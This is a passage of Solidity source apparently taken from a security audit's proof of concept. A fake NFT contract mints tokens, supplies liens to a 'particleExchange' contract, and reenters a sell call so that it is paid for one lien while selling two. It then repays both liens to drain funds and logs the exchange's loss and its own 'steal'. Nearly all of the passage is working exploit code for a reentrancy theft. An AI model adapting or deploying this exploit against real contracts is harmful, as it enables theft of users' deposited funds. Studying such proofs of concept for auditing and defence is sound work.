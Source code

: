 ```solidity
    }

    function execSteal() external {
        //0. mint nft and supply lien
        uint256 tokenId = 1;
        _mint(address(this), tokenId);
        _mint(address(this), tokenId + 1);
        _setApprovalForAll(address(this),address(particleExchange), true);
        //console.log(isApprovedForAll(address(this),address(particleExchange)));
        uint256 lienId = particleExchange.supplyNft(address(this), tokenId, sellAmount, 0);
        uint256 lienId2 = particleExchange.supplyNft(address(this), tokenId + 1, sellAmount, 0);
        uint256 particleExchangeBefore = address(particleExchange).balance;
        uint256 fakeNftBefore = address(this).balance;
        console.log("before particleExchange balance:",particleExchangeBefore / 1 ether);
        console.log("before fakeNft balance:",fakeNftBefore / 1 ether);
        //1.sell , reenter pay one but sell two lien
        sell(lienId,tokenId,sellAmount); 
        //2. repay lien 1 get 10 ether funds
        particleExchange.repayWithNft(
            Lien({
                lender: address(this),
                borrower: address(this),
                collection: address(this),
                tokenId: tokenId,
                price: sellAmount,
                rate: 0,
                loanStartTime: block.timestamp,
                credit: 0,
                auctionStartTime: 0
            }),
            lienId,
            tokenId
        );
        //3. repay lien 2 get 10 ether funds
        particleExchange.repayWithNft(
            Lien({
                lender: address(this),
                borrower: address(this),
                collection: address(this),
                tokenId: tokenId + 1,
                price: sellAmount,
                rate: 0,
                loanStartTime: block.timestamp,
                credit: 0,
                auctionStartTime: 0
            }),            
            lienId2,
            tokenId + 1
        );       
        //4.show fakeNft steal funds
        console.log("after particleExchange balance:",address(particleExchange).balance/ 1 ether);
        console.log("after fakeNft balance:",address(this).balance/ 1 ether);
        console.log("after particleExchange lost:",(particleExchangeBefore - address(particleExchange).balance)/ 1 ether);       
        console.log("after fakeNft steal:",(address(this).balance - fakeNftBefore) / 1 ether);        
    }

    function sell(uint256 lienId,uint256 tokenId,uint256 sellAmount) private{
        bytes memory tradeData = abi.encodeWithSignature(
            "sellToMarket(address,address,uint256,uint256)",
            address(particleExchange),
            address(this),
```